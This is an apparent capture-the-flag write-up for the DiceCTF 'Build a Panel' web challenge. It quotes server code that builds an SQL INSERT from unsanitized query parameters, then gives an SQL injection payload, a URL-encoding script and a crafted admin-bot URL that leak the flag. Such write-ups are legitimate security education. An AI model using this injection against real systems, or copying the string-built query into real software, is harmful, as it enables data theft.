

# Build a Panel

**Category**: Web \
**Points**: 130 (96 solves) \
**Author**: Jim

## Challenge

You can never have too many widgets and BAP organization is the future. If you
experience any issues, send it
[here](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=build-a-panel).

Site: [build-a-panel.dicec.tf](build-a-panel.dicec.tf) \
Attachments: `build-a-panel.tar.gz`

## Solution

Solved with ath0.

In `app/server.js`, we see:
```javascript
app.get('/admin/debug/add_widget', async (req, res) => {
    const cookies = req.cookies;
    const queryParams = req.query;

    if(cookies['token'] && cookies['token'] == secret_token){
        query = `INSERT INTO widgets (panelid, widgetname, widgetdata) VALUES ('${queryParams['panelid']}', '${queryParams['widgetname']}', '${queryParams['widgetdata']}');`;
        db.run(query, (err) => {
            if(err){
                res.send('something went wrong');
            }else{
                res.send('success!');
            }
        });
    }else{
        res.redirect('/');
    }
});
```

None of the query params are sanitized, so we can do SQL injection like so:

```sql
INSERT INTO widgets (panelid, widgetname, widgetdata)
VALUES (
    'myCoolPanel',
    'flagWidget',
    '"' || (SELECT * FROM flag) || '"'
);
```

We need the extra `"` quotes because of `JSON.parse(row['widgetdata'])` after
widgets are selected from the database.

Script to create the URL:
```python
import urllib.parse

p = "myCoolPanel"
n = "flagWidget"
d = """\"' || (SELECT * FROM flag) || '\""""
d = urllib.parse.quote(d)

print(
    f"https://build-a-panel.dicec.tf/admin/debug/add_widget?panelid={p}&widgetname={n}&widgetdata={d}"
)
```

Now we give this URL to the admin bot:
https://build-a-panel.dicec.tf/admin/debug/add_widget?panelid=myCoolPanel&widgetname=flagWidget&widgetdata=%22%27%20%7C%7C%20%28SELECT%20%2A%20FROM%20flag%29%20%7C%7C%20%27%22

Then we go to https://build-a-panel.dicec.tf/create, set the `panelId` cookie to
`myCoolPanel`, and we'll see the flag sent over the network.


